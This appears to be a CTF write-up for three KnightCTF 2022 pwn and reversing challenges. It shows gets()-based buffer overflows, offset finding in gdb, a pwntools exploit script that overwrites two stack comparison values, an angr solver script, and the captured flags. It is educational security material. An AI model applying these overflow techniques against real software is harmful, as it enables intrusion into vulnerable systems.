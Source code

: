 ```yaml
---
title: KnightCTF pwn challenges writeup
author: jopraveen
date: 2022-01-22
categories: [CTFtime,KinghtCTF]
tags: [pwn,rev]
---
```


## What's your name [50 points]
- They gave us a zip file to download, so lets unzip it and add the binary file to GHIDRA

#### Main function
![disas-main](https://i.imgur.com/zmeG6el.png)
- gets() is vulnerable to buffer overflow
- in line 14 they're checking the value 100 is still in that variable or not
- If we overwrite that variable then the if condition will be statisfied means the value 100 will be overwritten
- So we can get the flag
- Ok how we can do that?
  - char **user_input** array can store upto 60 bytes
  - and then there will be the value of the integer 100
  - so if we give more than 60 bytes it'll overwrite it
  - let's try that

![](https://i.imgur.com/Ymq1znG.png)
- Now let's try this at remote server

![](https://i.imgur.com/LPrmzMh.png)
- Nice we got our flag `KCTF{bAbY_bUfF3r_0v3Rf1Ow}`

------------

## What's your name 2 [100 points]
- They gave us a zip file to download, so lets unzip it and add the binary file to GHIDRA

#### Main function
- In ghidra we can reaname a variable by pressing `L` or right click it and do `rename variable`
- And we can add comments too (by pressing `;` semicolon in that particular line)
- That's what I did here, so don't confuse coz  it's different.. It's fully for your understanding purpose

![](https://i.imgur.com/TPBHQGG.png)

- I think I explained in the picture so it's enough to understand the vulnerablity
, lets skip to the exploitation part
- In line 22 there are  two condition checks
- One with **0x5445454c** , anther one with **0x534b544e**
- So we need to overwrite those values
- First let's find in which offset they are locate
- Let's open it with gdb and disassemble the main function

![](https://i.imgur.com/FN99TjA.png)
- Let's set breakpoints in both compare instructions

![](https://i.imgur.com/QRXxeAW.png)
- run it. I'm giving a pattern here as input

![](https://i.imgur.com/Wo7xzUi.png)
- We hit our first break point, let see what's in **eax** register

![](https://i.imgur.com/UUpEc4w.png)
- So we need to place **0x5445454c** at 76th position
- Before going to next breakpoint we need to set this register value as **0x5445454c**
- `set $eax=0x5445454c` and continue
- Then only it jumps to next comparison, otherwise it directly exits
- Now we hit our 2nd breakpoint, let's see what's in **eax** register

![](https://i.imgur.com/DR0fvjb.png)
- So we need to place **0x534b544e** at 72nd position
- Fine now let's write our exploit
- Don't forget we need to convert these values into little endian format

#### Exploit script
```python
#!/usr/bin/python3
from pwn import *
p = process('whats_your_name_two')

payload = b'A'*72 # fill 72 bytes with junk

''' 
>>> from pwn import *
>>> p64(0x534b544e)
b'NTKS\x00\x00\x00\x00'
our second argument starting at 76th position, 
so let's leave the nullbytes and take only "NTKS"
'''
payload += b'NTKS'
payload += p64(0x5445454c) # here we can send with null bytes, no problems

p.sendline(payload)
p.interactive()
```
- Nice it works, let's send this in remote server

![](https://i.imgur.com/PU4zjdR.png)
- Cool we got our flag `KCTF{bUfF3r_0v3Rf1Ow_i5_fUn_r1Gh7}`

-------

## Hackers Vault [100 points]
- They gave us a zip file to download, so lets unzip it and add the binary file to GHIDRA
- I was concentrating on other challenge so I automated this challenge with angr

#### angr script
```python
#!/usr/bin/python3
import angr
import claripy
import sys

good_address = 0x0040124a
bad_address = 0x00401288
base_addr = 0x00400000
flag_length = 6
binary = './hackers_vault'

proj=angr.Project(binary,load_options={'auto_load_libs':False},main_opts={'base_addr':base_addr})
flag=[claripy.BVS('flag%i'%i,8) for i in range(flag_length)]

flag_concat=claripy.Concat(*flag + [claripy.BVV("\n")])
state=proj.factory.entry_state(stdin=flag_concat) 
for i in flag: 
    state.solver.add(i>=32)
    state.solver.add(i<=127)
simgr=proj.factory.simgr(state)
simgr.explore(find=good_address,avoid=bad_address)
if simgr.found:
    simulation=simgr.found[0]
    print(simulation.posix.dumps(sys.stdin.fileno()))
else:
    print("FAILURE")
```

- I know it's too much for this
- But it works, that's what we need

![](https://i.imgur.com/J5rD8Q7.png)
- IN REMOTE

![](https://i.imgur.com/VvuvDAY.png)
- flag `KCTF{b1NaRy_3xOpL0iTaT1On_r0cK5}`
- That's all for this category, easy pwns 😛
    
    
    